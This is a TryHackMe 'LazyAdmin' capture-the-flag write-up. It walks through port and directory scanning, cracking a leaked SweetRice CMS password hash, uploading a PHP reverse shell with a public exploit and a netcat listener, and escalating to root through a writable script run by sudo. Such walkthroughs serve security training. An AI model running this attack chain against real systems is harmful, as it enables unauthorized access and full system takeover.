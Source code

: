```yaml
---
title: "LazyAdmin - THM"
# author:
#   name: 0xKirito
#   link: https://github.com/0xKirito
date: 2025-09-15 20:33:21 +05:30
categories: [Writeups, TryHackMe]
media_subpath: /assets/img/writeups/lazyadmin/
tags: [THM, CMS]
render_with_liquid: false
---
```


## Enumeration

```sh
export IP=10.201.118.110
sudo nmap -Pn -p- --min-rate 3000 -sC -sV -v $IP -oN scan.txt
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Seems like we only have 2 services running here:

- 80 <span class="fat-arrow">=></span> HTTP
- 22 <span class="fat-arrow">=></span> SSH

### HTTP

Since we have HTTP, let's do some dirbusting while we manually inspect the website.

Manually inspecting the webpage, we see the default Apache page:

![thm-lazyadmin-default-apache-page.png](thm-lazyadmin-default-apache-page.png)

```sh
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://$IP/FUZZ

content          [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 284ms]
server-status    [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 285ms]
```

```sh
gobuster dir -u http://$IP/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt

Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.201.118.110/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 318] [--> http://10.201.118.110/content/]
/server-status        (Status: 403) [Size: 279]
Progress: 29999 / 29999 (100.00%)
```

And visiting `/content` from the dirbusting results shows what looks like SweetRice CMS:

![thm-lazyadmin-sweetrice-cms.png](thm-lazyadmin-sweetrice-cms.png)

```sh
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://$IP/content/FUZZ

inc           [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 288ms]
_themes       [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 287ms]
images        [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 281ms]
js            [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 282ms]
attachment    [Status: 301, Size: 327, Words: 20, Lines: 10, Duration: 280ms]
as            [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 288ms]


gobuster dir -u http://$IP/content -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100
```

I decided to continue dirbusting the `/content` dir while I looked for SweetRice exploits. And found `/inc` dir which had `mysql_backup`.

I'm not sure if this is the official repo for SweetRice but I found it on GitHub: [https://github.com/sweetrice/SweetRice](https://github.com/sweetrice/SweetRice) and going through the dirs, I found `inc`, and the `latest.txt` file seemed to have SweetRice CMS version. Which in this case was 1.5.1.

- SweetRice CMS version 1.5.1

![thm-lazyadmin-sweetrice-cms-mysql-backup.png](thm-lazyadmin-sweetrice-cms-mysql-backup.png)

And `$IP/content/inc/mysql_backup/` had `mysql_bakup_20191129023059-1.5.1.sql` SQL file.

![thm-lazyadmin-sweetrice-cms-mysql-backup-file.png](thm-lazyadmin-sweetrice-cms-mysql-backup-file.png)

---

## Exploitation

I downloaded the backup SQL file and opened it in a text editor. Searching for "pass" in it took me to this line:

```sql
"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\
```

The dirbusting earlier had also revealed `/content/as` path and if you visit that path on the IP: http://$IP/content/as/ it takes you to what looks like a CMS login page.

![thm-lazyadmin-sweetrice-cms-login.png](thm-lazyadmin-sweetrice-cms-login.png)

From that SQL backup file earlier, it seems like we have an username of "manager" (or "admin") and password of "42f749ade7f9e195bf475f37a44cafcb" which looks like a hash. So I tried it on [CrackStation](https://crackstation.net/) and found the password to be: "Password123".

- `manager`:`Password123`

And trying those credentials logged me in.

![thm-lazyadmin-sweetrice-cms-authenticated-user.png](thm-lazyadmin-sweetrice-cms-authenticated-user.png)

At a quick glance, I didn't see any options to directly upload any files from the UI. So I tried searching for exploits on the internet and on ExploitDB with `searchsploit`.

```sh
searchsploit sweetrice

SweetRice 1.5.1 - Arbitrary File Download | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload   | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure       | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution | php/webapps/40700.html
```

[40716](https://www.exploit-db.com/exploits/40716) - If you read the exploit, it requires username and password for authentication and can upload files to the CMS. So we can try uploading and executing some reverse shells.

`searchsploit -m 40716` to copy the exploit file to your dir.

I got a PentestMonkey PHP reverse shell ready with my `tun0` IP and port 4444, named the file `revshell.php5` (as one of the extensions the exploit suggested).

The first time I only provided the IP for target but that didn't work. After going through the code, I realized it was appending `/as` instead of `/content/as` to the IP:

```python
login = r.post('http://' + host + '/as/?type=signin', data=payload)
```

So I ran it again, this time with target as `IP/content` and it worked as expected.

![thm-lazyadmin-sweetrice-cms-file-upload-exploit.png](thm-lazyadmin-sweetrice-cms-file-upload-exploit.png)

Then I ran a local netcat listener on port 4444: `nc -lvnp 4444` and visited `http://$IP/content/attachment/revshell.php5`.

And got a reverse shell on the netcat listener as `www-data`.

![thm-lazyadmin-nc-listener-user-shell.png](thm-lazyadmin-nc-listener-user-shell.png)

Let's first upgrade the shell before looking into privilege escalation.

```sh
which python => /usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl + Z to background the process
stty raw -echo; fg; reset
Press Enter
export TERM=xterm-256color
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/tmp
```

- `python ./40716.py`
- Target: `$IP/content`
- Username: `manager`
- Password: `42f749ade7f9e195bf475f37a44cafcb` => CrackStation => `Password123`
- PHP reverse shell and `nc -lvnp 4444`

---

## Privilege Escalation

```sh
www-data@THM-Chal:/$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

So we can run `sudo /usr/bin/perl /home/itguy/backup.pl` as the current `www-data` user without requiring a password, and it will execute with root privileges.

Examining what the `backup.pl` does:

```sh
www-data@THM-Chal:/home/itguy$ cat backup.pl 
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

And checking the permissions on `/etc/copy.sh`, we have write access:

```sh
www-data@THM-Chal:/home/itguy$ ls -lah /etc/copy.sh 
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

So any code we add to `/etc/copy.sh` will be executed with root privileges using `sudo` and without requiring a password.

We can just get it to run a bash shell session as root to get root for now.

```sh
www-data@THM-Chal:/home/itguy$ echo "/bin/bash" > /etc/copy.sh
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
/bin/bash
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl 
root@THM-Chal:/home/itguy# whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
```

![thm-lazyadmin-root.png](thm-lazyadmin-root.png)

And we have `root`!

In the enumeration earlier, the SSH port was also open. So if we want, we can add another user and login via SSH as `root` for post exploitation.

